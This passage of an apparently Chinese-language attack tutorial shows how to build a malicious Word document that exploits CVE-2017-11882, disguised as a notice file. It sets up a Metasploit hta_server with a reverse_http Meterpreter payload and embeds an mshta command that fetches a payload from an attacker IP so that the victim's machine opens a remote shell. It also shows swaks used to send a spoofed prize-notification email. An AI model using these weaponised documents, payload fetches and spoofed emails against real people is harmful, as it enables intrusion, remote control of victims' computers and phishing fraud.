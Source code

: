    
    
    python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc

![]()

双击test.doc，弹出计算器

![]()

利用cve-2017-11882上线msf

步骤一：使用exploit/windows/misc/hta_server生成病毒

    
    
    use exploit/windows/misc/hta_server  
    set payload windows/meterpreter/reverse_http  
    set lport 4444  
    show options  
    exploit

![]()

步骤二：生成带病毒的doc文件并伪装为通知文件

    
    
    python2 Command109b_CVE-2017-11882.py -c "mshta http://192.168.126.132:8080/Uf7DGFz.hta" -o 通知文件.doc -i input.rtf

![]()

受害人打开word，msf就会上线shell

![]()

## 四、邮件伪造

 **Swaks**

Swaks是kali自带的一款邮件伪造工具，通过swaks可以向任意目标发送任意内容的邮件

    
    
    swaks的用法：  
    --from <发件人的邮箱>   
    --ehlo <伪造邮件头>   
    --body <邮件正文内容>   
    --header <邮件头信息，subject为邮件标题>   
    --data <源邮件>   
    --attach <附件文件>

给指定邮箱发送邮件

    
    
    swaks --to seyoulala@chacuo.net --from A公司 --ehlo 中奖通知 --body 秉承“正德厚生，臻于至善”的企业核心价值观，立足发展，真情回馈社会和客户。全体员工祝贺您在此活动中获得一等奖。再次感谢您对本公司的关信和支持，本信仅为中奖凭证，具体细节见注意事项。--header "Subject: 中奖通知"

